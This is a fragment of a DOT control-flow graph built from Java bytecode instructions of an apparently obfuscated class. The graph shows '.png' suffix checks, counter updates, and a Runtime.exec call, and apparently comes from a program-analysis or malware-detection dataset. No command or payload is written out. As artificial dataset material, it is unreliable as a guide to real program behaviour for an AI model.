    "virtualinvoke <java.lang.String: boolean endsWith(java.lang.String)>"->"ifne load.r r0";
    "ifne load.r r0"->"load.r r0";
    "load.r r0"->"fieldget <H7X7B1K7: java.lang.String bs>";
    "push \".png\""
    "fieldget <H7X7B1K7: java.lang.String bs>"->"push \".png\"";
    "push \".png\""->"virtualinvoke <java.lang.String: boolean endsWith(java.lang.String)>";
    "virtualinvoke <java.lang.String: boolean endsWith(java.lang.String)>"->"ifne load.r r0";
    "ifne load.r r0"->"load.r r0";
    "load.r r0"->"load.r r0";
    "load.r r0"->"fieldget <H7X7B1K7: int i>";
    "fieldget <H7X7B1K7: int i>"->"push 1";
    "push 1"->"sub.i";
    "sub.i"->"fieldput <H7X7B1K7: int i>";
    "fieldput <H7X7B1K7: int i>"->"load.r r0";
    "load.r r0"->"fieldget <H7X7B1K7: int i>";
    "fieldget <H7X7B1K7: int i>"->"iflt load.r r0";
    "iflt load.r r0"->"goto load.r r0";
    "iflt load.r r0"->"load.r r0";
    "load.r r0"->"push 0";
    "push 0"->"fieldput <H7X7B1K7: int i>";
    "fieldput <H7X7B1K7: int i>"->"goto load.r r0";
    "ifne load.r r0"->"load.r r0";
    "load.r r0"->"load.r r0";
    "load.r r0"->"fieldget <H7X7B1K7: int i>";
    "fieldget <H7X7B1K7: int i>"->"push 1";
    "push 1"->"add.i";
    "add.i"->"fieldput <H7X7B1K7: int i>";
    "fieldput <H7X7B1K7: int i>"->"goto load.r r0";
    "virtualinvoke <java.io.IOException: void printStackTrace()>"
    "virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>"->"virtualinvoke <java.io.IOException: void printStackTrace()>";
}
